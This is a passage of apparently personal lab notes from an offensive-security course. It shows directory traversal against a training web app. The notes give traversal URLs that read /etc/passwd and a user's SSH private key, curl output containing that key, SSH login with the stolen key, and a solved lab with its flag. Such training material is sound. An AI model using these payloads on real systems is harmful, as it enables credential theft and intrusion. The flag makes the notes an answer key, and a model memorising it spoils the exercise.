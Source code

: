 # Identifying and Exploiting Directory Traversals

Example of a link
>``` shell
>https://example.com/cms/login.php?language=en.html
>```

Contents of /etc/hosts
>``` shell
>127.0.0.1       localhost
>127.0.1.1       kali
>192.168.50.16   mountaindesserts.com
>...
>```

Entire URL of our Directory Traversal attack (1)
>``` shell
>http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
>```

Entire URL of our Directory Traversal attack (2)
>``` shell
>http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>```

SSH Private Key via curl
>``` shell
>kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>
># ========== Expected Result ==========
>...
>-----BEGIN OPENSSH PRIVATE KEY-----
>b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
>NhAAAAAwEAAQAAAYEAz+pEKI1OmULVSs8ojO/sZseiv3zf2dbH6LSyYuj3AHkcxIND7UTw
>XdUTtUeeJhbTC0h5S2TWFJ3OGB0zjCqsEI16ZHsaKI9k2CfNmpl0siekm9aQGxASpTiYOs
>KCZOFoPU6kBkKyEhfjB82Ea1VoAvx4J4z7sNx1+wydQ/Kf7dawd95QjBuqLH9kQIEjkOGf
>BemTOAyCdTBxzUhDz1siP9uyofquA5vhmMXWyy68pLKXpiQqTF+foGQGG90MBXS5hwskYg
>...
>lpWPWFQro9wzJ/uJsw/lepsqjrg2UvtrkAAADBAN5b6pbAdNmsQYmOIh8XALkNHwSusaK8
>bM225OyFIxS+BLieT7iByDK4HwBmdExod29fFPwG/6mXUL2Dcjb6zKJl7AGiyqm5+0Ju5e
>hDmrXeGZGg/5unGXiNtsoTJIfVjhM55Q7OUQ9NSklONUOgaTa6dyUYGqaynvUVJ/XxpBrb
>iRdp0z8X8E5NZxhHnarkQE2ZHyVTSf89NudDoXiWQXcadkyrIXxLofHPrQzPck2HvWhZVA
>+2iMijw3FvY/Fp4QAAAA1vZmZzZWNAb2Zmc2VjAQIDBA==
>-----END OPENSSH PRIVATE KEY-----
>...
># =====================================
>```

Using the Private Key to connect via SSH
>``` shell
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>The authenticity of host '[mountaindesserts.com]:2222 ([192.168.50.16]:2222)' can't be established.
>Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
>...
>@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
>@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
>@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
>Permissions 0644 for '/home/kali/dt_key' are too open.
>It is required that your private key files are NOT accessible by others.
>This private key will be ignored.
>...
># =====================================
>
>kali@kali:~$ chmod 400 dt_key
>
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>...
>offsec@68b68f3eb343:~$ 
># =====================================
>```

Lab 1 - Follow the steps above and leverage the directory traversal vulnerability in the "Mountain Desserts" web application on VM #1. Use curl or Burp to obtain the SSH private key for the user offsec. Use it to connect via SSH on port 2222 and find the flag in the SSH banner, which is displayed after you log in.
>``` shell
># 
>kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>
># ========== Expected Result ==========
><!DOCTYPE html>
><html>
>    <head>
>...
>-----BEGIN OPENSSH PRIVATE KEY-----
>b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
>NhAAAAAwEAAQAAAYEAz+pEKI1OmULVSs8ojO/sZseiv3zf2dbH6LSyYuj3AHkcxIND7UTw
>XdUTtUeeJhbTC0h5S2TWFJ3OGB0zjCqsEI16ZHsaKI9k2CfNmpl0siekm9aQGxASpTiYOs
>...
>hDmrXeGZGg/5unGXiNtsoTJIfVjhM55Q7OUQ9NSklONUOgaTa6dyUYGqaynvUVJ/XxpBrb
>iRdp0z8X8E5NZxhHnarkQE2ZHyVTSf89NudDoXiWQXcadkyrIXxLofHPrQzPck2HvWhZVA
>+2iMijw3FvY/Fp4QAAAA1vZmZzZWNAb2Zmc2VjAQIDBA==
>-----END OPENSSH PRIVATE KEY-----
># =====================================
>
># Copy the SSH private key beginning at "-----BEGIN OPENSSH PRIVATE KEY-----" and ending at "-----END OPENSSH PRIVATE KEY-----" from the terminal
>
>kali@kali:~$ nano dt_key
>
># Paste the SSH private key into dt_key
>
>^X
>
># Set the correct permissions by running on the SSH key file
>
>kali@kali:~$ chmod 400 dt_key
>
># Connect via SSH on port 2222
>
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>Linux 8a84873ebe9c 5.4.0-212-generic #232-Ubuntu SMP Sat Mar 15 15:34:35 UTC 2025 x86_64
>OS{8fca25afe0f5ce31e21c3a8ea27c6e85}
>offsec@8a84873ebe9c:~$ 
># =====================================
>

>
>```
>

Lab 2 - Follow the steps above and leverage the directory traversal vulnerability in the "Mountain Desserts" web application on VM #1. Use curl or Burp to obtain the SSH private key for the user offsec. Use it to connect via SSH on port 2222 and find the flag in the SSH banner, which is displayed after you log in.
>``` shell
>
>```
>
